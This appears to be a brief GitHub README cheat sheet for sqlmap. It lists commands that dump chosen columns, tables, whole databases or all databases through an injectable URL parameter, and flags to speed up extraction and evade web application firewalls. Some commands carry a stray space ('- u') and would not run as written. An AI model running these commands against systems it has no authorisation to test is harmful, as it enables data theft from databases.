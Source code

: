 						
<h2>SQLmap Usage</h2>

 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>

 * **Parameters**      `--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o `
 
* **Optimised Url**
  ```
sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o
```
